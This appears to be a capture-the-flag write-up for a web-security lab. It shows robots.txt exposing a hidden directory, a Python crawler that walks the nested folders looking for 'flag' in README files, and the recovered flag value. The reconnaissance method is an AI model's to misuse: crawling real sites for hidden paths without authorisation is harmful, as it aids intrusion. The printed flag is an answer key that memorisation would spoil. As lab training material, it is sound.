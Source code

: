 ```
http://{IP_ADDRESS}/robots.txt
```
```
http://{IP_ADDRESS}/.hidden/
```

>When we open the URL, we see 26 randomly named folders + a README file.
>
>Reading the README, we encounter the message **"Tu veux de l'aide ? Moi aussi !"** which means "Do you want help? Me too!"
>
>As we explore these randomly named folders, we notice that each subfolder contains a README file with different content.
>
>Therefore, our goal is to scan through all README files to find a keyword like "my flag is" to obtain the flag.


```
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup
import re

base_url = "http://{IP_ADDRESS}/.hidden/"
visited = set()
flagged = []

session = requests.Session()
session.mount("http://", requests.adapters.HTTPAdapter(max_retries=3))

def scan(url):
    if url in visited:
        return
    visited.add(url)

    try:
        print(f"Taranıyor: {url}")
        r = session.get(url, timeout=5)
        if r.status_code != 200:
            return

        if url.endswith("README"):
            matches = [line for line in r.text.splitlines() if "flag" in line.lower()]
            if matches:
                print(f"\n✅ FLAG HERE: {url}")
                print("📦 CONTENT:\n" + "\n".join(matches) + "\n")
                flagged.append((url, matches))

        for a in BeautifulSoup(r.text, 'html.parser').find_all('a'):
            href = a.get('href')
            if href and not href.startswith('?') and href != '../':
                next_url = url.rstrip('/') + '/' + href
                if next_url.startswith(base_url):
                    scan(next_url)
    except Exception as e:
        print(f"Error: {url} - {str(e)[:100]}")

if __name__ == "__main__":
    print("🔍 start searching...\n")
    scan(base_url)

    print(f"\n🎯 {len(flagged)} find 'flag' in README.")
    with open("flagged_readmes.txt", "w", encoding="utf-8") as f:
        for url, lines in flagged:
            f.write(f"URL: {url}\nFLAG LINES:\n{chr(10).join(lines)}\n{'-'*50}\n")
```

>This script can be described as a simple scraper that scans all folders, including all subfolders, and stops when it finds a URL containing "flag" within the content of any file named "README".


```
URL: http://192.168.193.129/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README
FLAG LINES:
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
--------------------------------------------------
```